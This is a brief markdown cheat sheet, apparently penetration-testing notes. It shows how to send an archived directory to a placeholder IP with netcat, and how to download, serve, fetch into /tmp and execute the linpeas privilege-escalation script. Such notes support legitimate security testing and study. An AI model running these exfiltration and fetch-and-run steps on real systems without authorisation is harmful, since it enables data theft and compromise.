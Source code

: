 ## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc x.x.x.x 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

## Download and serve linpeas
### Sender:
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Receiver
```bash
cd /tmp
wget x.x.x.x:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
```
